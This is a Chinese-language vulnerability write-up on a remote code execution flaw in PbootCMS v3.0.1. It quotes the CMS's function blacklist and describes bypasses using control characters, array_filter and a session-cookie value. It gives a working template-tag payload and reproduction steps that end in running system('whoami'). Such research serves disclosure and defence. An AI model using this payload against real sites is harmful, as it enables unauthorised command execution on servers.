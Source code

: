 PbootCMS v3.0.1 远程代码执行漏洞
================================

一、漏洞简介
------------

二、漏洞影响
------------

PbootCMS v3.0.1

三、复现过程
------------

### 漏洞分析

依然是先查看`apps\home\controller\ParserController.php中的parserIfLabel`方法的两个if标签的过滤项

    if (preg_match_all('/([\w]+)([\/\*\<\>\%\w\s\\\\]+)?\(/i', $matches[1][$i], $matches2)) {
                        foreach ($matches2[1] as $value) {
                            if (function_exists($value) && ! in_array($value, $white_fun)) {
                                $danger = true;
                                break;
                            }
                        }
                    }
    if (preg_match('/(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(pcntl_exec)|(popen)|(proc_open)|(print_r)|(print)|(urldecode)|(chr)|(include)|(request)|(__FILE__)|(__DIR__)|(copy)|(call_user_)|(preg_replace)|(array_map)|(array_reverse)|(getallheaders)|(get_headers)|(decode_string)|(htmlspecialchars)/i', $matches[1][$i]))

关于第一处的判断，我们依然可以使用在函数名和括号之间插入控制字符的方法来绕过该处校验，对于第二处，可以看到在黑名单中相较于上个分析版本（2.0.9）添加了getallheaders的黑名单判断，于是该处我们需要寻找新的方法来实现代码执行的目的，这让我想到了array\_filter函数

![1.png](resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId25.png)

通过该函数我们可以实现执行php代码，例如array\_filter(\[\'whoami\'\],\'system\');

那么接下来我们需要思考如何绕过黑名单中对system的检测，在这里我们依然可以将system放到header头中，这里可以使用session\_id(session\_start())的方法来取到session的值，我们可以将session的值置为system，就可以成功的调用system函数来执行命令了，通过上面的思路写出利用payload使用的时候却发生了如下问题

![2.png](resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId26.png)

该处的冒号被替换成了`@`符号，通过查看github更新记录可以发现如下代码段

![3.png](resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId27.png)

该处使用了正则来替换我们输入的if标签，为了绕过该处正则的替换我们可以使用反斜杠来进行绕过，例如{pboot:if}{/pboot:if}，该处的反斜杠会被写入数据库，而在程序调用该段数据并渲染到前台的模板时会调用到stripcslashes函数，进而删除反斜杠，代码位于core\\function\\handle.php中，如图

![4.png](resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId28.png)

### 漏洞复现

通过上面的分析，我们易得如下payload

    {pboot\:if(var_dump<0x01>(array_filter<0x01>(['whoami'],session_id<0x01>(session_start<0x01>()))))}bbbbb{/pboot\:if}

来到后台站点信息处

![5.png](resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId30.png)

插入上述poc并保存，然后来到前台首页，访问前台首页抓取数据包，将cookie中session的配置项改为system,如图

![6.png](resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId31.png)

可以看到成功执行了`system("whoami");`

参考链接
--------

> https://xz.aliyun.com/t/8321
